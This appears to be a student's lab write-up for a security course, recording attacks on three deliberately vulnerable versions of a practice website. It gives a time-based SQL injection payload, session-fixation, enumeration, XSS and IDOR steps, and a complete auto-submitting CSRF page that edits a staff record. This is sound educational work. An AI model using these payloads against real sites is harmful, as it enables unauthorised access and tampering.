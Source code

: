 # codepath-cyber-week8

# Project 8 - Pentesting Live Targets

Time spent: **3** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)

We performed a SQL Injection at the '/blue/public/salesperson.php?id=?' endpoint by replacing the parameter for 'id=?' with ' OR SLEEP(5)=0--' which caused the page to pause for 5 seconds, indicating a successful injection.

![](week8_blue1.gif)

Vulnerability #2: Session Hijacking/Fixation

In this exploit we used two different browsers to manipulate the session IDS. We took the PHPSESSIONID token of a user that was already logged in and set the different instance to the same token. The user could then bypass the login form and directly access the account that the session token belonged to.

![](week8_blue2.gif)


## Green

Vulnerability #1: Username Enumeration

By attempting to log in (unsuccesfully), the site reveals some info. If the username exists but the password was incorrect, the message "Log in was unsuccessful" will be in bold. If the username does not exist, then the error message will be unbolded.

![](week8_green1.gif)

Vulnerability #2: Cross-Site Scripting (XSS)

In the Feedback Form, the user can insert Javascript code into the Feedback section so when the admin checks the form, the script will execute.

![](week8_green2.gif)


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)

In this exploit, we could manipulate the URL to link us directly to pages that were not intended for public view. We could do this by changing the 'id=??' parameter to access certain pages.

![](week8_red1.gif)

Vulnerability #2: Cross-Site Request Forgery (CSRF)

In this exploit, we create an .htm file and submit it using the Feedback Form. Then when an admin follows the link, it will execute a script to change and access the page of a Salesperson.

<!DOCTYPE html>
		<html>
	<head>
		<title>Your Feedback</title>
		<script src="https://code.jquery.com/jquery-3.2.1.min.js"></script>
	</head>
	<body>

		<p> you should secure your site</p>
		<style>
		.hide-form {
			display: none;
		}
		</style>
		<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=1" method="POST" class="hide-form" id="attackform"  name="form">
			<input type="text" name="first_name" value="Dummy" /><br />
			<input type="text" name="last_name" value="Burke" /><br />
			<input type="text" name="phone" value="888-888-8888" /><br />
			<input type="text" name="email" value="free_email@pmail.com" /><br />
		</form>
		<script>
		$(function() {
			console.log("loaded");
			window.document.forms[0].submit(function(e) {


				console.log("submitted");
			});
		});
		</script>
</html>

![](week8_red2.gif)

## Notes

No major problems encountered, just being aware to use multiple browsers for some exploits to mimic attackers and admins. Fun challenges!
